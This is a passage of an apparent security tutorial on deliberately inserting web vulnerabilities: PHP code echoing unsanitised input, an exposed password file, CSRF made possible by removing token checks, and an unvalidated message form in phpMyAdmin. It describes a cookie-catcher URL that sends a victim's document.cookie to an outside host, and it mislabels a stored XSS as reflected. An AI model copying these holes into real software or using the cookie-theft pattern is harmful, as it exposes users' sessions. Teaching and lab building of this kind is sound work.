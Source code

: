 ``` php $name = $_GET['name']; if(isset($name)) { print "Welcome, ".$name; } else { print "Welcome, User "; } ```
The _password.txt_ file is available for anyone to view. Some developers think that the _robots.txt_ file is used for hiding subdomains and directories.But in actual it is used to provide direction to web crawlers about what publicly available information should and should not be indexed. Hence if a directory is non-public, then it should not be linked anywhere on the site and it should not be included in robots.txt, because that essentially makes it public. If it is not linked, there is no reason to include it in the robots.txt in the first place.

**4)Inserting CSRF (Cross Site Request Forgery) Vulnerability**

CSRF occurs when an attacker is able to have the victim user make a request to a trusted site (to which he is already authenticated) on behalf of the victim without his knowledge. Some developers think that allowing the victim to submit only POST Requests or using a secret cookie will prevent the victim from CSRF. But this is not true as the cookie will be submitted with every request the victim makes to the trusted website. Also it is very trivial for the attacker to have the victim submit a POST request which can be done by having a secret form on the attacker's website which would be submitted to the trusted website on behalf of the victim.

There are some ways to prevent CSRF. One of them is to have a secret token and have it submitted with each request the client makes to the trusted website, either in the URL or in the header. Also this token should have a timeout value after which it should expire and a new token is generated for the user. One of the other ways is to have the authentication data submitted with important requests, for e.g wire transfer, password change etc. Note that in this case the attacker won't have access to the user's credentials and hence won't be able to perform this attack. Inserting a CSRF is hence quite easy. We just need to remove all the checks that prevent CSRF, i.e remove the checking of tokens, authentication data etc. More information about CSRF can be found [here](http://en.wikipedia.org/wiki/Cross-site_request_forgery).

For inserting the next two vulnerabilities we are going to use the web application _phpMyAdmin_. More information on phpMyAdmin and to know the steps to install it, click [here](http://www.phpmyadmin.net/documentation/).

**5) Inserting Reflected XSS (Cross Site Scripting) vulnerabilities**

Let's assume for one moment that phpmyadmin is an application used by many users and it has just one admin. The admin wants to provide a functionality in a page message.html _http://site-IP/phpmyadmin/message.html_ that allows any user to post a message to the administrator. The message is passed to a file message.php which writes it to a file text.html without validating the message. The admin can then view all the message by just going to the _text.html_ page. So if an attacker can inject malicious code in the message field then that code would execute on the admin's machine once the admin opens up the text.html page. This vulnerability is called Reflected XSS (Cross Site Scripting). Also, by using the same technique the attacker can steal the admin's cookies. The attacker could use a cookie catcher located somewhere on the web which takes a variable _'c'_. We pass the variable _c_ as document.cookie (i.e the user's cookie) to the _Cookie Catcher_ file (note that we must know the location of the cookie catcher file), for e.g if the Cookie Catcher file URL is _http://infosecinstitute.com/cookie_catcher.php_ then the request that we will send from the client machine through XSS is _http://infosecinstitute.com/cookie_catcher.php?c=USER_COOKIE_. The USER_COOKIE is the cookie we fetch through javascript.This file then writes the Cookie and other values to a file named _user_info.html_.

Code for "message.html", the message to the admin is sent from here

``` php POST YOUR MESSAGE TO ADMIN HERE !

<form action="message.php" method="get"><input type="text" name="c"></form>

```
